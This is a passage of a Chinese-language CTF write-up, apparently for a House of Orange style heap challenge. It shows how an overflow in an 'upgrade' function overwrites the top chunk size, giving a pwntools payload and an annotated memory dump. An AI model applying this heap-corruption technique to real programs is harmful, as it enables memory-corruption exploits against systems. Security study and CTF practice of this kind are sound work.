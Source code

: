 在upgrade对name进行更新时存在溢出，我们通过upgrade修改name可以覆盖top\_chunk size位，但是按照分析修改这个位置有几个要求：

```
大于MINSIZE(0X10)
小于所需的大小 + MINSIZE
prev inuse位设置为1
old_top + oldsize的值是页对齐的
```

需要页对齐所以选择topchunk的末三位cf1是一个合理的选择

接下来我们就修改这个top chunk，payload构造如下：

````python
```python
payload = b'a'*0x30 +p64(0) + p64(0x21) + b'b'*0x10 + p64(0) + p64(0xcf1)
print(payload)
upgrade(len(payload),payload)
#gdb.attach(p)
#pause()
#修改后内存布局：
#0x562f7e5902b0	0x0000000000000000	0x0000000000000041	........A....... #0x41大小的chunk
#0x562f7e5902c0	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa #b'a'*0x30
#0x562f7e5902d0	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa #b'a'*0x30
#0x562f7e5902e0	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa #b'a'*0x30
#0x562f7e5902f0	0x0000000000000000	0x0000000000000021	........!....... #p64(0) + p64(0x21)
#0x562f7e590300	0x0000001f00000010	0x6262626262626262	........bbbbbbbb #b'b'*0x10
#0x562f7e590310	0x0000000000000000	0x0000000000000cf1	................ # <-- Top chunk #p64(0) + p64(0xcf1)
```
````
